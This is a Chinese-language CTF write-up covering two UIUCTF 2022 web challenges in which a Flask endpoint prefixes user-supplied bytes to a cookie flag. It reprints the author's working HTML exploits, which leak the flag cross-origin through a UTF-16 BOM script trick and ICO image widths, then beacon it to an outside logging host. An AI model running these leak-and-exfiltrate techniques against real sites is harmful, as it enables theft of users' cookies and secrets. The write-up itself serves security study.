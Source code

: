```yaml
---
title: UIUCTF 2022 筆記
catalog: true
date: 2022-08-01 20:31:10
tags: [Security]
categories: [Security]
photos: /img/uiuctf-ctf-2022-writeup/cover.png
---
```


其實沒有參加這一次的 CTF，但有稍微看到兩題跟 content type 有關的題目覺得有趣，來記一下解法。

<!-- more -->

## modernism(21 solves)

程式碼超簡單：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[A-Za-z]+}$
    return Response(prefix+flag, mimetype="text/plain")
```

會把你送去的資料 hex decode 以後加在 response 的 flag 前面，就這樣。有一個 admin bot 會帶著 flag 在 cookie 去造訪你的頁面。

這題我原本想說 `text/plain` 不能被當作 script 載入，就算沒有加 `X-Content-Type-Options: nosniff` 也一樣，後來發現我記錯了，其實是可以的。

相關程式碼在 [third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/106.0.5211.0:third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc;l=79;bpv=0;bpt=1)

``` c
// Helper function to decide what to do with with a given mime type. This takes
// - a mime type
// - inputs that affect the decision (is_same_origin, mime_type_check_mode).
//
// The return value determines whether this mime should be allowed or blocked.
// Additionally, warn returns whether we should log a console warning about
// expected future blocking of this resource. 'counter' determines which
// Use counter should be used to count this. 'is_worker_global_scope' is used
// for choosing 'counter' value.
bool AllowMimeTypeAsScript(const String& mime_type,
                           bool same_origin,
                           AllowedByNosniff::MimeTypeCheck mime_type_check_mode,
                           WebFeature& counter) {
  using MimeTypeCheck = AllowedByNosniff::MimeTypeCheck;

  // If strict mime type checking for workers is enabled, we'll treat all
  // "lax" for worker cases as strict.
  if (mime_type_check_mode == MimeTypeCheck::kLaxForWorker &&
      RuntimeEnabledFeatures::StrictMimeTypesForWorkersEnabled()) {
    mime_type_check_mode = MimeTypeCheck::kStrict;
  }

  // The common case: A proper JavaScript MIME type
  if (MIMETypeRegistry::IsSupportedJavaScriptMIMEType(mime_type))
    return true;

  // Check for certain non-executable MIME types.
  // See:
  // https://fetch.spec.whatwg.org/#should-response-to-request-be-blocked-due-to-mime-type?
  if (mime_type.StartsWithIgnoringASCIICase("image/")) {
    counter = WebFeature::kBlockedSniffingImageToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("audio/")) {
    counter = WebFeature::kBlockedSniffingAudioToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("video/")) {
    counter = WebFeature::kBlockedSniffingVideoToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("text/csv")) {
    counter = WebFeature::kBlockedSniffingCSVToScript;
    return false;
  }

  if (mime_type_check_mode == MimeTypeCheck::kStrict) {
    return false;
  }
  DCHECK(mime_type_check_mode == MimeTypeCheck::kLaxForWorker ||
         mime_type_check_mode == MimeTypeCheck::kLaxForElement);

  // Beyond this point we handle legacy MIME types, where it depends whether
  // we still wish to accept them (or log them using UseCounter, or add a
  // deprecation warning to the console).

  if (EqualIgnoringASCIICase(mime_type, "text/javascript1.6") ||
      EqualIgnoringASCIICase(mime_type, "text/javascript1.7")) {
    // We've been excluding these legacy values from UseCounter stats since
    // before.
    return true;
  }

  if (mime_type.StartsWithIgnoringASCIICase("application/octet-stream")) {
    counter = kApplicationOctetStreamFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("application/xml")) {
    counter = kApplicationXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/html")) {
    counter = kTextHtmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/plain")) {
    counter = kTextPlainFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/xml")) {
    counter = kTextXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/json") ||
             mime_type.StartsWithIgnoringCase("application/json")) {
    counter = kJsonFeatures[same_origin];
  } else {
    counter = kUnknownFeatures[same_origin];
  }

  return true;
}
```

可是就算可以被當作是 script 引入，也沒辦法輕易弄成可以執行的語法，因為 flag 中有 `{}`。

非預期解是利用 class，前面加上 class 就變成 `class uiuctf{fakeflag}`，有了這個之後你只要 `uiuctf+''` 就可以得到當初宣告 class 時的那一整串東西，就拿到 flag 了。

預期解是前面加上 BOM，讓 JS 把整個腳本用 UTF-16 去解讀，就會把原本那一串 flag 變成奇怪的中文字，就不會壞了，前面則可以加上 `++window.`，之後去看 window 的每個屬性就好。

作者的[解法](https://codesandbox.io/s/modernism-sol-05tjvc?file=/index.html:0-1544)如下：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <!--
      we use a BOM (byte order mark) to change the encoding
      of the document and cause it to be interpreted as valid JS

      BOM = magic unicode character at start of document 
        to indicate encoding and endianness

      chrome supports the UTF16-BE and UTF16-LE BOMs:
      FE FF and FF FE

      we then encode: ++window. as UTF16-BE
      2B2B7769006E0064006F0077002E

      so the JS executed is:
      ++window.RANDOM_UNICODE_CHARACTERS
      
      - luckily, when decoding the flag format as UTF-16 BE, 
        the resultant characters will always be a valid JS identifier
        - this is NOT true in precisionism, due to the space and ! characters in the suffix

      Finally, we iterate through the `window` object,
      and utf16-be encode the added property to get the flag
    -->
    <script src="https://modernism-web.chal.uiuc.tf/?p=FEFF002B002B00770069006E0064006F0077002E"></script>
    <script>
      const encutf16=(s)=>[...s].flatMap(c=>[String.fromCharCode(c.charCodeAt(0)>>8),String.fromCharCode(c.charCodeAt(0)&0xff)]).join('');
      const flag = Object.getOwnPropertyNames(window).map(x=>encutf16(x)).find(x=>x.startsWith('uiuctf{'));
      navigator.sendBeacon("//hc.lc/log2.php?modernism",flag);
    </script>
  </body>
</html>
```


## precisionism(3 solves)

這題跟上題很像，只是結尾多加了一些東西：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[0-9A-Za-z]{8}}$
    return Response(prefix+flag+b"Enjoy your flag!", mimetype="text/plain")
```

因為多加的那些東西，所以前面那兩招都不能用。

這題的預期解是把 response 弄成 ICO 格式，然後把要 leak 的部分放到 width 去，就可以 cross origin 拿圖片寬度，一個 byte 一個 byte 拿出來：

作者[解法](https://codesandbox.io/s/precisionism-sol-17tev5?file=/index.html:0-1039)：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <h1>
      This is a static template, there is no bundler or bundling involved!
    </h1>
    <script>
      const sleep = () => new Promise((res) => setTimeout(res, 50));
      async function exfil(i) {
        let img = new Image();
        let p = "00000100020001010000010020006804000026000000";
        if (i>0) p = p.slice(0, -i*2);
        img.src = `https://precisionism-web.chal.uiuc.tf/?p=${p}`;
        await img.decode();
        return img.width;
      }
      async function main() {
        for (let i = 0; i < 16; i++) {
          let c = await exfil(i);
          console.log(String.fromCharCode(c));
          navigator.sendBeacon("//hc.lc/log2.php?precisionism",String.fromCharCode(c)+" "+c)
        }
      }
      main();
    </script>
  </body>
</html>
```

## 總結

話說我還有特別研究了一下 chromium 怎麼做 mime sniffing，不過這次題目跟這個好像沒太大關係，還是筆記一下位置：https://source.chromium.org/chromium/chromium/src/+/master:net/base/mime_sniffer.cc